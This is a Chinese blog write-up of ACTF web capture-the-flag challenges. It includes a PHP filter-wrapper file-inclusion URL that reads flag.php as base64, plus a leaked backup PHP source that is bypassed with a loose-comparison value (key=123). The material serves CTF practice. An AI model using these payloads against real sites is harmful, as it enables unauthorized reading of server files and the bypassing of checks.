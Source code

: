 <!--yml
category: 未分类
date: 2022-04-26 14:18:24
-->

# ACTF题解_Mr_小白先生的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41788704/article/details/109046353](https://blog.csdn.net/qq_41788704/article/details/109046353)

# Include

查看HTML源码,发现flag位置
![在这里插入图片描述](img/55cd8fcb3eddd5fd5632ce21b4aeb045.png)因为题目提示，所以用伪协议包含文件

```
http://e4ca9c95-59dc-4e4f-8e08-99bbf23306dd.node3.buuoj.cn/?file=php://filter/read=convert.base64-encode/resource=flag.php 
```

![在这里插入图片描述](img/63186dd7f701430953c3131c95eb1f81.png)

# exec

![在这里插入图片描述](img/30029f71a1676a12fce3d010e362f202.png)

# backupfile

扫描发现index.php.bak源码泄露

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
} 
```

弱类型比较
key=123